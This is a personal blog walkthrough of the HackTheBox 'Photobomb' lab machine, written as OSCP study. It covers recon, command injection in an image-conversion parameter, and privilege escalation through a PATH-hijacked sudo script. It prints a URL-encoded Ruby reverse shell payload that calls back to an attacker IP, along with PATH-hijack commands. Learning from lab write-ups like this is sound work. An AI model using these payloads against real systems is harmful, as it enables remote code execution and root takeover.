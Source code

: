```yaml
---
id: 6
title: CTF Walkthroughs - Photobomb
description: My walkthrough of the Photobomg machine on hackthebox.com
publishedDate: 01/25/2023
featureImage: https://i.imgur.com/LbooXdNh.png
---
```


## Intro

Hello Internet!

So I know it's been a few months since my last post, ugh I told myself I wouldn't go this long in between posts!

It's been a while since my last post, but I've actually been pretty busy in the pentesting/learning area! I worked through the whole advent of cyber program throughout December, and started working through the Red Team Modules in TryHackMe.com as well!

So I thought I might take a little bit of a break from TryHackMe, and started looking at HackTheBox.com. My goal is to take my OSCP test later this year, so I'm trying to get into more of a frequency of working on these vulnerable boxes. Unintended side effect of this is that means I'll be having more posts as I work through these!

So anyways, to get a feel for HackTheBox, I did a couple easy machines. One of them, soccer, I confess I did while going through someone else's walkthrough, so I didn't think that should be one that I blog about. I then did precious.htb, but I was kind of bad about not taking screenshots of the steps, so I finished getting the flags, but I kind of gave up on the write-up.

So today I'm writing about the photobomb HackTheBox machine! This machine is rated easy (I'm sticking with the easy ones for now until I start to feel more comfortable with what I'm doing), and has quite a few owns on it, so it looks like it should be a good first post on HackTheBox!

Ok, let's get started!


## Recon
First off, I started with an nmap scan.

`nmap -sC -sV 10.10.11.182`

![f11e59756439cc78acbbe502479884df.png](https://i.imgur.com/lT0h4nl.png)
Ok, looks like ports 22 and 80 are open, and if I try to hit http://10.10.11.182, I get an attempted redirect to http://photobomb.htb. So looks like I need to add that to my host file.

After adding the host file entry, I first navigate to the page, and this is what I see:
![b42737bbdd4c2b0c052b0fa734970e6e.png](https://i.imgur.com/sjqxJYX.png)
I reload the page with the network tab open and start looking at the headers in the response. I've noticed that with the HTB machines compared to the TryHackMe rooms, it seems like with the boxes I've done there's been way more emphasis on the headers.

Anyways, nothing in the headers, but there's a link on the home page to "get started", guess I'll try that out?

![d34a1463dda6cfa17bf6c9cbaad989df.png](https://i.imgur.com/ofrKhFi.png)
Ooohhh, ok, looks like I need a login for that, not going to get there yet...
Ok, I go ahead and git dirbuster up and running to see if there are any other pages to look at. If you haven't picked up from my screenshots, I'm using Kali for this, I used TryHackMe's Attackbox throughout my posts on those rooms, just for ease of use. Since I'm starting to study for OSCP though, I figured it was time to actually start using a dedicated instance, so I'm running a VM of Kali to work from.

While dirbuster is running, I start looking through the CSS files and JS files to see if there is anything I can work with from there.


![afe2dbd2315a0de9484da62e416e588c.png](https://i.imgur.com/6zroPoI.png)
Looks like in photobomb.js there's a reference to look for a cookie, and if that cookie is set, then you get routed to some sort of page...

![763e0f59f129202e79ede2e3d27109dd.png](https://i.imgur.com/LbooXdN.png)Hmmmm, interesting, looks like that "logs me in" as the pH0t0 user, neat!

Ok, so it doesn't look like there's much to this page, you pick an image, an image size value and image type value and, the site returns with the image in that size and format.

![1e4ff86a80bae992b87339f723eb0875.png](https://i.imgur.com/PTr7MO3.png) It looks like the filename, filetype and image size parameters are sent back in the POST request, I wonder if I can manipulate those parameters?
 
 I'm just going to try removing one of them to see if I get any errors.
 
![c3395328f85a178255c706ad473f12ad.png](https://i.imgur.com/6Jytho4.png) 
 Ahhh, interesting! So I removed the photo parameter from the POST request, and triggered a Sinatra error page that displays the code where the error occurred! I'm now able to read part of the file that's doing this processing!
 
 I wonder if the same thing will happen if I remove other parameters.
![f467029dadd834cd4ea7d26513efc821.png](https://i.imgur.com/2kokHw9.png) Here's the part of the code that looks at the filetype parameter.
 
![daf44de473b8b15ddabfb5efb5b888f4.png](https://i.imgur.com/vyOv6gE.png) Here's the part of the code that looks at the file Size parameter.
 
 ## Foothold
 OK, from looking at that fileType parameter, it looks like there's just a check to see if "png" or "jpg" is in the parameter. I'm going to see if I can inject any commands into that parameter and maybe trigger something. Unfortunately, there's no response text section, so I can't just like inject "whoami" or "echo $PWD" or anything fun like that. I'll set up a netcat listener and see if maybe I can use curl?
 
 Here's the modified request
![18bada8ec0ce69f87c5c2f3525b38215.png](https://i.imgur.com/q2JdlXd.png) 
![d2750cd46ba3be02c1e432e449f6f263.png](https://i.imgur.com/0aNdW1i.png) Heyyyyy, looks like we can use curl! (Had to recreate this screenshot after disconnecting and re-connecting, so the IP was different)
 Ok, I think from here I have to try and get some sort of reverse shell going
 
 I used reverseshells.com and spent a good few hours trying a number of different options, both URLEncoded and not encoded. Ultimately I eventually realized that if this site is using Sinatra and the errors we saw were from Ruby files, we should be able to use Ruby for a reverse shell!
 
 Here's the request. minus any spaces and with the %3b in place of a semicolon:
 `%3bruby+-rsocket+-e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.33",9090))'`
![0e101cbc272c78a010f4ba295e9fe5da.png](https://i.imgur.com/PLoL0Du.png) 
 
 
![123f6ace8a0ac0f3781d5df29796a03b.png](https://i.imgur.com/lQUEaZh.png)Aaaaannnnd we have the terminal now!

Before looking for flags, let's get this to a more stable terminal session
`python3 -c "import pty; pty.spawn('/bin/bash')"`

I still can't use my arrow keys or tab-complete, but this is a little more stable.

The user flag was fairly easy to find, just in /home/wizard/user.txt


## Privilege Escalation
 With the user flag out of the way, I wanted to start looking for privilege escalation vulnerabilities. Let's check if my user can run any sudo commands
 
 `sudo -l`
 
![42f55b6f6c4baf004e7753f2bc546b39.png](https://i.imgur.com/Ivf0w3N.png) 
 Interesting.... Looks like I can run this cleanup.sh script witrh sudo privileges and don't even need the password!
 Let's take a look at this cleanup.sh file
![433882a1f54fd6cb3ade3bef9a744396.png](https://i.imgur.com/rYNwCiR.png) Ok, so I notice that most of the commands have the full path to the command listed ("/usr/bin/truncate" instead of just "truncate"). The last line of the script has both the "find" command and the "chown" command without the full path.
 Because of this, I should be able to add append another location to the beginning of the $PATH environment variable, and write my own definition of either the "find" or "chown" command. I can put anything I want in there then and (hopefully) get a root shell!
 
 I tested this out by making a "find" file with just "whoami" as the command inside the file
 
 `echo "whoami" > find`
 
 I next had to make the file executable:
 `chmod +x file`
 
 Then I added the current working directory to the PATH variable temporarily and ran the script:
 `sudo PATH=$PWD:$PATH /opt/cleanup.`
 You can see in the screenshot I tried to run it when the find file didn't have executable privileges, but once I set those privileges, then it worked!
![40a0c3670164a6aa3381f3fa8a1c2e85.png](https://i.imgur.com/T3DeGuK.png) 
 Ok cool, I just have to change the find file to run "bash" and we should be golden!
 
 I wasn't able to get an editor up, so I just deleted the find file I made earlier and made a new one:
![a56526cf1636bea89dddb49d0723edde.png](https://i.imgur.com/U3QVyam.png) 
 We have root access now!!
 
 Root flag was just in /root/root.txt, so nothing too difficult to find!
 
 Welp, that wraps up this machine! I admit, I got stuck on the reverse shell payload for a good couple of hours, and I also got stuck on the privilege escalation for a while (I tried exporting the path with the directory and for some reason it was working. Then I was accidentally writing  `sudo $PATH=$PWD:$PATH /opt/cleanup.` and it wasn't doing anything either). 
 
 Not too bad for one of my first machines on Hack The Box though! Since I'm now studying up for my OSCP test, I'll (hopefully) be posting more of these, so we'll see you (soon) on the next one!



 
 
 
 










